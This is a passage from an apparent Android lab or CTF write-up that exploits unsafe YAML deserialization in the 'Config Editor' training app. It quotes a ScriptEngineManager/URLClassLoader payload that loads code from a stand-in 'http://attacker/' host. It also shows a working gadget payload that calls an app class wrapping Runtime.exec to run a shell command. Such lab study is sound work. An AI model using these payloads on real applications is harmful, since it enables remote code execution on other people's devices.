 With that in mind and after finishing reading the blog, I understand that I need to find a gadget that is a *class* or *function* available within the execution scope of an application.

One of the payload examples in the blog is:

```yaml
!!javax.script.ScriptEngineManager [  
     !!java.net.URLClassLoader [[  
          !!java.net.URL ["http://attacker/"]  
     ]]  
]
```

So I thought to myself, “Great, now I just need to run a Python server and perform a request. Easy.”

I was wrong! The problem with that payload is that the `javax.script.ScriptEngineManager` class is not directly available in the standard Android SDK. So I need to find another gadget to exploit this application. That is when something called my attention!

In the package `com.mobilehackinglab.configeditor`, there is a class named `LegacyCommandUtil` with an error message `Command Util is unsafe and should not be used`. Below we can see the class code.

```java
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) throws IOException {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```

These will be our gadgets to achieve remote code execution. Now, we just need to create a custom payload.

# Pwning

With this crafted YAML payload file, we achieve remote code execution, and for just a PoC, we create a `.txt` file with the `touch` command.

```yaml
!!com.mobilehackinglab.configeditor.LegacyCommandUtil
  ["touch /data/data/com.mobilehackinglab.configeditor/files/pwned_app.txt"]

```

![2025-09-12_img_05.png](/assets/images/ctf-mhl/config-editor-lab/2025-09-12_img_05.png)
